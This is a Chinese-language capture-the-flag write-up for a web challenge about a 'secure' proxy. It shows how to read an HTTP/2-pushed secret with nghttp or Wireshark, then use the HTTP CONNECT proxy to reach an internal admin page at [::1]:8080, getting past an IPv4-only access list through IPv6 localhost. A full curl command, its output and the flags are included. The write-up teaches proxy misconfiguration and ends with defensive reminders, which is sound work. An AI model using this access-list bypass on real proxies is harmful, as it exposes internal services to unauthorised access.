

# 超安全的代理服务器

- 题目分类：web

- 题目分值：找到 Secret（200）+ 入侵管理中心（150）

在 2039 年，爆发了一场史无前例的疫情。为了便于在各地的同学访问某知名大学「裤子大」的网站进行「每日健康打卡」，小 C 同学为大家提供了这样一个代理服务。曾经信息安全专业出身的小 C 决定把这个代理设计成最安全的代理。

**提示：浏览器可能会提示该 TLS 证书无效，与本题解法无关，信任即可。**

**公告：题目帮助页面（<https://146.56.228.227/help>）右下角的「管理中心」链接有误，应该与首页相同，都是指向 http://127.0.0.1:8080/**

[打开/下载题目](https://146.56.228.227/)

---

本地源代码在 src 文件夹下。

## 考察内容

本题设计指出是为了考察 HTTP 协议的一系列应用。更具体的来说，本题需要各位选手们在答题的过程中了解如下一些内容：

1. HTTP2 的新特性 —— PUSH
2. HTTP CONNECT 可以用于隧道代理
3. 代理服务器的本地代理漏洞
4. IPv6 协议

当然，为了避免不了解相关内容的同学做题时卡克，小 C 在设计本题的时候也希望尽可能充分的给足暗示，希望能够让大家稍微了解一下。

## 解法
使用大部分比较新浏览器打开本题的时候，都会提示 “Notice: 我们已经向您 推送（PUSH） 了最新的 Secret ，但是你可能无法直接看到它。”，同时在帮助中心中也明确提示了“HTTP2”。只要将这两个关键词在谷歌中搜索，就可以找到大量关于 HTTP2 新特性 PUSH 的相关资料。 HTTP2 的更多资料参见 [RFC 7540](https://tools.ietf.org/html/rfc7540)。

### Step 1: 获取 Secret

简单来说，HTTP2 PUSH 特性可以使得服务器更加主动地向浏览器推送资源，使得内容加载更加灵活和快速，但是 HTTP2 PUSH 的内容通常不会直接出现在浏览器的“开发人员工具”中，因此需要更加底层的调试和查看手段。我们在这里提供了两种查看的方法：

### Method 1. 使用 Wireshark 抓包分析
一种很直观的查看方式是直接抓取原始流量进行分析，但是困难在于 h2 内容 大多经过 TLS 协议加密，因此直接查看只能看到加密后的内容。解决方法是提取浏览器中的 TLS 会话秘钥，就可以进行抓包和解密了。具体细节参见：[这一篇文章](https://cloud.tencent.com/developer/article/1416948)

我们使用类似下面的命令可以启动浏览器并导出 TLS 秘钥，并使用 Wireshark 可以抓取到加密的 HTTP2 流量，我们观察到有 PUSH_PROMISE 的内容，具体是一个 URL。我们访问这个 URL 即可得到**代理凭证 secret** 和第一个**flag**


### Method 2. 使用 nghttp2 工具调试 HTTP2
还有另一个方法是使用命令行工具 nghttp2 来调试获取 push 的内容。

```
$ nghttp -sny https://146.56.228.227/
***** Statistics *****

Request timing:
  responseEnd: the  time  when  last  byte of  response  was  received
               relative to connectEnd
 requestStart: the time  just before  first byte  of request  was sent
               relative  to connectEnd.   If  '*' is  shown, this  was
               pushed by server.
      process: responseEnd - requestStart
         code: HTTP status code
         size: number  of  bytes  received as  response  body  without
               inflation.
          URI: request URI

see http://www.w3.org/TR/resource-timing/#processing-model

sorted by 'complete'

id  responseEnd requestStart  process code size request path
  2    +11.07ms *   +11.03ms     48us  200  571 /dab44e3a-6b65-4bda-a0f4-3bc1531b8a1c
 13    +11.09ms       +270us  10.82ms  200 1015 /
```

最终 flag1 相关的网页部分源代码如下：
```
<p style="color:blue;">Notice: secret: 9a33678d37 ! Please use this secret to access our proxy.(flag1: flag{d0_n0t_push_me} )</p>
```

### Step 2. 入侵控制中心
此时我们已经可以访问我们的代理服务器了。从原理上说，我们的代理服务器使用的是 HTTP CONNECT 代理，其具体原理参考 [RFC 7231](https://tools.ietf.org/html/rfc7231#section-4.3.6)。

有了代理服务器，我们需要访问什么内容呢？其实从题目名字“入侵管理中心”就已经告诉了我们做题的方向了。通过点击“管理中心”这个非常可疑的链接 http://127.0.0.1:8080。这告诉我们需要访问服务器内网 8080 端口上的 http 服务。

其实大部分代理协议（甚至包括早期的“影子袜子”软件等）都可能存在如下漏洞：代理服务器没有过滤一系列私有 IP 段，导致用户可以访问一些本机上（或者内网中）并不希望对外可访问的服务。但是我们的访问控制列表控制的还是比较严密：

* 全球单播地址
* 10.0.0.0/8
* 127.0.0.0/8
* 172.16.0.0/12
* 192.168.0.0/16

其实 IPv4 的单播地址基本都被过滤干净了，可能可以想到可以使用 IPv6 的地址来试试。IPv6 协议中，本地地址通常是 `[::1]` 这样一个地址，因此可以来试试。在连接建立成功后，提示还需要 Referer，最终加上 Referer ，即可构造 exp 并获取 **flag2**。下面给出最终执行的命令以及关键输出。

```
$ curl http://\[::1\]:8080 -p -x https://146.56.228.227:443 -H "referer: https://146.56.228.227" -vvnn --proxy-insecure --proxy-header "Secret: da0d8b646b"

> CONNECT [::1]:8080 HTTP/1.1
> Host: [::1]:8080
> User-Agent: curl/7.64.1
> Proxy-Connection: Keep-Alive
> Secret: da0d8b646b
...
...
...
< HTTP/1.1 200 OK
< Content-Length: 0
...
...
...
> GET / HTTP/1.1
> Host: [::1]:8080
> User-Agent: curl/7.64.1
> Accept: */*
> referer: https://146.56.228.227
...
...
...
< HTTP/1.1 200 OK
< Date: Thu, 05 Nov 2020 11:54:21 GMT
< Content-Length: 32
< Content-Type: text/plain; charset=utf-8
<
* Connection #0 to host 146.56.228.227 left intact
flag2: flag{c0me_1n_t4_my_h0use}
...
```

## 一些提醒
1. IPv6 规则配置不当其实应当引起重视。小 C 自己曾经见到某服务器配置了 200 余条 IPv4 iptables 规则，却放行了全部 IPv6 流量。功亏一篑~
2. 一些代理相关软件至今都存在类似本地代理漏洞的风险，下面是“某白话文教程”中的代码片段原文：
```
      {
        "type": "field",
        "outboundTag": "direct",
        "ip": [
          "geoip:cn",
          "geoip:private"
        ]
      }
```
3. 为了防止一些浏览器能够通过调试控制台得到 secret，小 C 曾经测试了 IE、旧 Edge、新 Edge、Chrome、Firefox、Safari 等主流桌面级浏览器。如果有同学知道有什么浏览器可以直接调试 http2的，可以告诉小 C。**（黑曜石浏览器除外）**
